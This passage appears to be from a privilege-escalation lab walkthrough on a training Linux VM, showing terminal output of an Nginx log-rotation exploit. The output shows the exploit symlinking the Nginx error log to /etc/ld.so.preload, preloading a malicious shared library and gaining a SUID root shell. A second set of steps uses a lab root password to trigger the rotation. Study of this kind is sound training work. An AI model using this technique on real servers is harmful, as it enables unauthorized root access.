 ~~~
[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Compiling the privesc shared library (/tmp/privesclib.c)

[+] Backdoor/low-priv shell installed at: 
-rwxr-xr-x 1 www-data www-data 926536 Aug 25 03:05 /tmp/nginxrootsh

[+] The server appears to be (N)jinxed (writable logdir) ! :) Symlink created at: 
lrwxrwxrwx 1 www-data www-data 18 Aug 25 03:05 /var/log/nginx/error.log -> /etc/ld.so.preload

[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am...
~~~

Linux VM – Terminal 2

1. Once logged in, type: `su root`
2. The root password is `password123`
3. As root, type the following: `invoke-rc.d nginx rotate >/dev/null 2>&1`
4. Switch back to the previous terminal.

~~~
TCM@debian:~$ su root
Password: 
root@debian:/home/user# invoke-rc.d nginx rotate >/dev/null 2>&1
~~~

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: `id`

~~~
[REDACTED]

[+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am...
[+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: 
-rw-r--r-- 1 www-data root 19 Aug 25 03:06 /etc/ld.so.preload

[+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

[+] The /etc/ld.so.preload file now contains: 
/tmp/privesclib.so

[+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!
-rwsrwxrwx 1 root root 926536 Aug 25 03:05 /tmp/nginxrootsh

[+] Rootshell got assigned root SUID perms at: 
-rwsrwxrwx 1 root root 926536 Aug 25 03:05 /tmp/nginxrootsh

The server is (N)jinxed ! ;) Got root via Nginx!

[+] Spawning the rootshell /tmp/nginxrootsh now! 

nginxrootsh-4.1# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
nginxrootsh-4.1# 
~~~
